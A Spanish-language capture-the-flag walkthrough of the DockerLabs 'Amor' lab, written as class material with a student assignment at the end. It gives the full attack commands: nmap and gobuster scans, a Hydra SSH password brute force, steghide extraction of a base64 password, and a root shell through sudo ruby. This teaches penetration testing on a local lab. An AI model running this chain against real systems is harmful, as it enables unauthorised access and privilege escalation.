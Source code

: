 ## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

**Prerequisito tener instalado docker**

## Fácil

Dockerlabs.es

*Descarga*

![](Descarga.jpg)
## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

└─# ./auto_deploy.sh amor.tar 

![](Despliegue.jpg)



## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

![](ipadd.jpg)

```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

![](netdiscover.jpg)


Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

![](nmap.jpg)

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](gobuster.jpg)

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)



## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

![](hydra.jpg)

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![](scp.jpg)


La imagen descargada es la siguiente:

![](foto.jpg)

## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

![](sudo.jpg)

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```
![](root.jpg)

# Taller Individual.

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando.
3. Realice un diagrama de flujo de todo el procedimiento realizado.

